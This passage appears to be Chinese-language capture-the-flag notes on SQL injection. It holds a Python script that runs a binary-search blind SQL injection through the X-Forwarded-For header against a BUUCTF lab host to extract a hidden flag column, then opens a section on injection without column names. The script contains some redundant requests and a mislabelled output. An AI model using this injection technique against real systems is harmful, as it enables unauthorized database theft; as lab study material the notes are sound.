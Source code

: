 ```python
另一道题采用二分法编写脚本
import requests

url = "http://node3.buuoj.cn:28520/"
head = {
	"GET" : "/ HTTP/1.1",
	"Cookie" : "track_uuid=33a51b3b-f586-4070-d651-4ea39b145410",
	"X-Forwarded-For" : ""
}
result = ""
urls ="0' or ascii(substr((select F4l9_C01uMn from F4l9_D4t4B45e.F4l9_t4b1e limit 1,1),{0},1))>{1} or '0"
for i in range(1,100):
	l = 27
	r = 127
	mid = (l+r)>>1
	while(l<r):
		head["X-Forwarded-For"] = urls.format(i,mid)
		html_0 = requests.post(url,headers = head)
		head["X-Forwarded-For"] = urls.format(i, mid+1)
		html_0 = requests.post(url, headers=head)
		html_0 = requests.post(url, headers=head)
		if "Last Ip: 1" in html_0.text:
			l= mid+1
		else:
			r=mid
		mid = (l+r)>>1 #右移位相当于mid=(l+r)//2
	if(chr(mid)==' '):
		break
	result+=chr(mid)
	print(result)
print("table_name:"+result)
```



### 无列名注入

##### 1. 联合查询注列名（**究其核心，就是给想要查询的表中的列名进行重命名，或加个序号。**）

正常的查询如下：

![image-20231031100157388](assets/image-20231031100157388.png)
